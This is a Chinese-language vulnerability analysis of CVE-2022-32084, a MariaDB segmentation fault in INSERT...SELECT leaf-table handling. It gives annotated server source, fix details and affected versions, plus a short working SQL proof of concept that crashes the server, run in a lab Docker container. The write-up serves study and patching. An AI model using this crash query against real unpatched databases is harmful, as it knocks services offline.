


# CVE-2022-32084 MariaDB 段错误

## 漏洞背景

- **sub_select**： MariaDB 中处理 **子查询** 的一个组件。当数据库执行包含嵌套查询（例如在 `SELECT` 语句中的 `IN`、`EXISTS` 或 `JOIN` 子句）时，`sub_select` 组件负责执行这些子查询。

## 漏洞原理

漏洞发生在 `sub_select` 组件，该组件负责执行子查询操作。MariaDB 在处理 INSERT...SELECT 语句时，因叶子表（Leaf Tables）生成逻辑错误导致的内存安全漏洞。当查询包含复杂结构（如窗口函数或派生表）时，插入目标表可能被错误排除在叶子表列表外，导致其 TABLE 结构未初始化，后续操作引用空指针引发段错误（Segmentation Fault）。

漏洞触发的条件与执行复杂的嵌套查询（特别是涉及 **窗口函数** 或 **聚合函数**）有关

## 漏洞定位

1、在 **sql/sql_base.cc** 文件中，第 **7821** 行，`setup_tables` 函数用于在执行 SQL 语句之前设置和准备涉及的表。它的主要作用包括解析表列表、设置表的属性、构建叶子表列表（leaf tables list）等。其中第 **7848** 行，当处理 `INSERT...SELECT` 语句时，在构建子叶表时会调用`make_leaves_list`函数构建一个查询的叶子表列表，其参数如下：

- `tables` 参数指向插入目标表（比如 `INSERT INTO t1` 中的 `t1`）
-  `first_select_table` 被设置为 `tables->next_local`（即 `SELECT` 部分的第一个表，如 `t2`）
- `full_table_list`参数用来判断是否包含可合并派生表/视图的表，如果是则为true，递归处理其子表。在处理 `INSERT ... SELECT` 语句时，`full_table_list` 的值通常会被设置为 `false`，以避免将插入目标表包含在查询的表列表中。这是因为在 `INSERT ... SELECT` 语句中，`SELECT` 部分的表列表不应包含插入目标表。这是因为在 INSERT ... SELECT 语句中，SELECT 部分的表列表不应包含插入目标表。

```c
bool setup_tables(THD *thd, Name_resolution_context *context,
                  List<TABLE_LIST> *from_clause, TABLE_LIST *tables,
                  List<TABLE_LIST> &leaves, bool select_insert,
                  bool full_table_list)
{
  uint tablenr= 0;
  List_iterator<TABLE_LIST> ti(leaves);
  TABLE_LIST *table_list;

  DBUG_ENTER("setup_tables");

  DBUG_ASSERT ((select_insert && !tables->next_name_resolution_table) || !tables || 
               (context->table_list && context->first_name_resolution_table));
  /*
    this is used for INSERT ... SELECT.
    For select we setup tables except first (and its underlying tables)
  */ 
    // 判断是否是 INSERT ... SELECT 语句
  TABLE_LIST *first_select_table= (select_insert ?
                                   tables->next_local:
                                   0);
    // select_lex 被设置为 thd->lex->first_select_lex()，表示 INSERT ... SELECT 语句中 SELECT 部分的语法结构
  SELECT_LEX *select_lex= select_insert ? thd->lex->first_select_lex() :
                                          thd->lex->current_select;
    // 构建叶子表列表
  if (select_lex->first_cond_optimization)
  {
    leaves.empty();
    if (select_lex->prep_leaf_list_state != SELECT_LEX::SAVED)
    {
      make_leaves_list(thd, leaves, tables, full_table_list, first_select_table);
      select_lex->prep_leaf_list_state= SELECT_LEX::READY;
      select_lex->leaf_tables_exec.empty();
    }
    else
    {
      List_iterator_fast <TABLE_LIST> ti(select_lex->leaf_tables_prep);
      while ((table_list= ti++))
        leaves.push_back(table_list, thd->mem_root);
    }
      // 遍历构建好的叶子表列表，为每个表设置属性
    while ((table_list= ti++))
    {
      TABLE *table= table_list->table;
      if (table)
        table->pos_in_table_list= table_list;
      if (first_select_table &&
          table_list->top_table() == first_select_table)
      {
        /* new counting for SELECT of INSERT ... SELECT command */
        first_select_table= 0;
        thd->lex->first_select_lex()->insert_tables= tablenr;
        tablenr= 0;
      }
      if(table_list->jtbm_subselect)
      {
        table_list->jtbm_table_no= tablenr;
      }
      else if (table)
      {
        table->pos_in_table_list= table_list;
        setup_table_map(table, table_list, tablenr);

        if (table_list->process_index_hints(table))
          DBUG_RETURN(1);
      }
      tablenr++;
      /*
        We test the max tables here as we setup_table_map() should not be called
        with tablenr >= 64
      */
      if (tablenr > MAX_TABLES)
      {
        my_error(ER_TOO_MANY_TABLES,MYF(0), static_cast<int>(MAX_TABLES));
        DBUG_RETURN(1);
      }
    }
  }
  else
  { 
    /*** ***/
  }    

  /*** ***/
}
```

2、第 **7766** 行`make_leaves_list` 函数，作用是构建一个查询的叶子表列表。叶子表列表是指在查询执行过程中需要访问的基本表或视图。该函数遍历传入的表列表，并根据一定的规则将符合条件的表加入到叶子表列表中。

根据上面的传参，`make_leaves_list` 的 `boundary` 参数为 `first_select_table`（`t2`），`table`参数是`t1` 。`t1` 是 `tables` 的第一个元素，而 `boundary` 是 `t2`，`full_table_list` 的值为`false`。

在第一次遍历 `tables` 时，`t1` 不等于 `boundary`， `full_table_list` 为`false`不会进入递归处理派生表的 if 语句，会导致 `t1` 未被加入 `leaves`。

如果插入目标表 `t1` 未被加入 `leaves` 列表，其 `TABLE` 结构（`t1->table`）未被初始化。后续执行计划（如 `sub_select` 函数）引用 `t1->table` 时，触发 **空指针解引用**

```c
void make_leaves_list(THD *thd, List<TABLE_LIST> &list, TABLE_LIST *tables,
                      bool full_table_list, TABLE_LIST *boundary)
 
{
  for (TABLE_LIST *table= tables; table; table= table->next_local)
  {
    if (table == boundary)
      full_table_list= !full_table_list; // 状态切换
    if (full_table_list && table->is_merged_derived())
    {
        // 递归处理派生表
      SELECT_LEX *select_lex= table->get_single_select();
      /*
        It's safe to use select_lex->leaf_tables because all derived
        tables/views were already prepared and has their leaf_tables
        set properly.
      */
      make_leaves_list(thd, list, select_lex->get_table_list(),
      full_table_list, boundary);
    }
    else
    {
      list.push_back(table, thd->mem_root);
    }
  }
}
```

**修复：**

在 `make_leaves_list` 函数中，新增了 `make_leaves_for_single_table` 函数来修复表列表构建逻辑。该函数在构建表列表时，能够正确排除 `INSERT ... SELECT` 语句中的插入目标表。确保在处理 `INSERT ... SELECT` 语句时，正确区分插入目标表和查询源表

## 漏洞修复

升级到 MariaDB 10.3.36、10.4.26、10.5.17、10.6.9、10.7.5、10.8.4、10.9.2 或对应分支的更高版本。MDEV-26427 修复了 `INSERT ... SELECT` 的叶表列表构造逻辑：`setup_tables()` 和 `make_leaves_list()` 现在接收一致的起始指针和完整列表指针，不会越过有效的表链。

升级前，应限制不可信用户针对复杂视图或与 PoC 相似的表引用列表执行 `INSERT ... SELECT`。SQL 过滤只能部分缓解风险，因为等价的查询改写仍可能到达相同的表初始化代码。

## 影响版本


**受影响的版本：** MariaDB 10.2.x 至 10.7.x

## 环境搭建

使用 MariaDB v10.6.3



## 漏洞复现

1、进入容器命令行，使用root用户登录

```bash
docker exec -it mariadb-10.6.3 bash
mariadb -u root -p
```

2、新建数据库testdb并切换至testdb数据库

```sql
create database testdb;
use testdb;
```

3、执行sql命令，可以看到遇到错误且容器自动关闭

```sql
CREATE TABLE t1 (a int);
INSERT INTO t1 SELECT AVG ('x') OVER ();
```



4、查看容 MariaDB 崩溃日志：

```bash
docker logs mariadb-10.6.3
```

可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生


## POC分析

创建一个名为 `t1` 的表，仅包含一个整数类型的列 `a`。

```sql
CREATE TABLE t1 (a int);
```

使用聚合函数，尝试将计算结果插入表 `t1`

```sql
INSERT INTO t1 SELECT AVG ('x') OVER ();
```

由于`OVER()` 是窗口函数语法，在 MariaDB 优化器处理此类查询时，窗口函数需要构建一个 **派生表（Derived Table）** 来存储中间计算结果。该派生表会触发 `make_leaves_list` 函数的递归处理逻辑

## 参考链接


[MariaDB v10.2 to v10.7 was found to include...· CVE-2022-32084 Vulnerability · GitHub Database Inquiry --- MariaDB v10.2 to v10.7 was discovered to contain a... · CVE-2022-32084 · GitHub Advisory Database](https://github.com/advisories/GHSA-qcx8-8xph-pfh5)

[[MDEV-26427\] MariaDB Server SEGV on INSERT .. SELECT - Jira](https://jira.mariadb.org/browse/MDEV-26427)

[MDEV-26427 MariaDB Server SEGV on INSERT .. SELECT · MariaDB/server@49e1400](https://github.com/MariaDB/server/commit/49e14000eeb245ea27e9207d2f63cb0a28be1ca9#diff-16fd8e507582e428d933bc7ee3984394eab544410785220b536ab964d4e9e084)
